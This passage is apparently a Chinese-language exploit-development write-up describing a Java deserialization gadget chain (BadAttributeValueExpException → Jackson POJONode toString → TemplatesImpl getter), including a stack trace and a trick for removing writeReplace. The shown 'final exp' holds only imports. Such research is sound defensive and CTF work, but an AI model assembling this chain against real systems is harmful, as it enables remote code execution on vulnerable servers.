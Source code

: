 ![](/assets/img/2023-05-03-21-35-26.png)

stack关键部分如下
```
serializeAsField:692, BeanPropertyWriter (com.fasterxml.jackson.databind.ser)
serializeFields:774, BeanSerializerBase (com.fasterxml.jackson.databind.ser.std)
serialize:178, BeanSerializer (com.fasterxml.jackson.databind.ser)
```

## 获得部分gadget
既然我们可以调用getter了，那么容易想到`TemplatesImpl`这条链，现在的gadget如下
```
TemplatesImpl.getOutputProperties()
use jackson to call object's getter (object -> str)
```
那么怎么触发object转成字符串这个过程呢, 回顾常用的入口类：
`BadAttributeValueExpException` 绝对不错！

## 获得整个gadget
```
③TemplatesImpl#getOutputProperties
②jacksonType#toString
①BadAttributeValueExpException触发val的toString方法
```
当然现在还只是感觉上没问题，我们先本地跑起来看看
* 首先在`com.fasterxml.jackson.databind.node`看到了一堆类型
* 去源码中[引用1](https://github.com/FasterXML/jackson-databind/tree/jackson-databind-2.13.1/src/main/java/com/fasterxml/jackson/databind/node) 我们可以找一下可接受Object的构造方法，找到了两条路子
  * `POJONode(Object v)`
  * `ArrayNode#addPOJO(Object pojo)`

写完，打！报了个错
```
Failed to JDK deserialize `JsonNode` value: xxx
```
跟一下报错，发现报错出在`writeReplace`方法上，调试一下往前看看这个是反射找的，没有的话就不会调用的，因此把他删了或者名字改了就行。（文件在`com.fasterxml.jackson.databind.node`下的`BaseJsonNode`）

此时可以patch jar包或者创建同名文件(后者更方便)


## 最终exp
```java
import com.fasterxml.jackson.databind.ObjectMapper;
import com.fasterxml.jackson.databind.node.*;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
```